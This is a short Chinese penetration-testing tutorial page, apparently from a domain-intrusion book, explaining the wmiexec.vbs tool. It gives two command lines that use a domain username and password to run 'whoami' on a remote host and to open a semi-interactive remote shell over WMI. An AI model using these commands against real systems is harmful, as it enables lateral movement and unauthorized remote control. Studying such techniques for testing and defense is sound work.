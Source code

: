 > 原文：[http://book.iwonder.run/域渗透/4.2.2.3.html](http://book.iwonder.run/域渗透/4.2.2.3.html)

#### 4.2.2.3 wmiexec.vbs

wmiexec.vbs 是为了解决 wmic 无法回显命令而开发的一个工具，原理就是把数据先存 到一个临时文件中，在每次读取完执行结果后就自动删除。可以用来回显执行命令的结果和 获取半交互式的 shell

![image](img/18a6be1d215357177a9f6f90ec7f6795.png)

```
cscript wmiexec.vbs /cmd 192.168.19.178 adtest\jeff1 test@123 whoami 
```

![image](img/b4e2024f46956992382750d5b98a3775.png)

```
cscript wmiexec.vbs /shell 192.168.19.178 adtest\jeff1 test@123 
```

![image](img/6aae3098b620ba6b33ebea78c4b697f0.png)

